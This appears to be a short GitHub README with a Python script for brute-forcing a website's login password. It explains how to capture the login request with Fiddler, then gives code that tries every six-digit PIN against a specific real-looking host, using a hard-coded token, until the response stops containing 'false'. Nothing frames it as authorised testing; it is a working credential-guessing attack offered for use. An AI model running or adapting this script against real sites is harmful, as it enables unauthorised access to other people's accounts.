


# Main Steps
* Using Fiddler to capture the URL and th post pasckage when user logging in (Using whatever account names and passwords).
    <p align="center" >
        
    </p>
    <p align="center" >
        
    </p>
* In python, fill the data in a form of the dictionary.
* Post the request

# Reference
* [Two ways to post requests using python.](https://blog.csdn.net/qq_29113041/article/details/79084544)  
* [python 暴力破解密码脚本](https://www.cnblogs.com/cocoajin/p/3991227.html)
* [输入密码经过本地加密怎么办？](https://zhuanlan.zhihu.com/p/57375111)

# Example Code
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib.request

def tryLogin(pwd):

    data = {
        '_token':'tLjSpPwe8E8XtGHuKbDHCwwu1T28l6P7',
        'password': pwd
    }

    r = urllib.request.urlopen(
            url ='http://1003.ykzm.sxehny.cn/verify/1003',
            data = urllib.parse.urlencode(data).encode(encoding='UTF8')
    )
    
    response = str(r.read(), encoding = "utf-8")
    isFind = False
    if "false" in response: # 这里是对应网站的密码验证逻辑
        print('登陆失败',pwd)
        isFind = False
    else:
        print('登陆成功','password = ',pwd)
        isFind = True   
    return isFind 


# 暴力破解
for i in range(1000000):
    input = str(i).zfill(6)
    tryLogin(input)
```
